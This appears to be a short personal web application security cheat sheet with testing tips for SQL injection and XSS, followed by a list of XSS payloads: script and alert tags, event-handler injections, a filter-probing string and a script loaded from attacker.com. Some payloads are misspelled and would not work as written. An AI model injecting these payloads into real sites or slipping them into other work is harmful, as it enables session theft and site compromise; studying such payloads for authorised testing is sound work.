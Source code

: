 # Web AppSec Nots

**Web AppSec**

* try **SQLI** in any req maybe send to Database
* Search all **parameters**, **Endpoint** and **Functions** in JS files
* try to use Stored XSS payload in user input (comment fields, user profile, blog)
* try to Reflected-XSS Payload in user input (forms, search. name, username,bio, location,Fields)
* in Test XSS Use this Payload in the First  `()'Test><>'"<!-`
* &#x20;
*

**Were Tested the vulnerability**



## Payload

## XSS

* use escape any character `\`
* `<script>alert('1337')</script>`
* `<ifram src=javasrcipt:alert(1)>`
* `<body onload=prompt(1);>`
* `'><img src=x onerror=confirm(1);>`
* `<script>console.log(11)<!-`
* `<a onmouseove="alert(1)'>test</a>`
* `<script src=//attacker.com/test.js>`
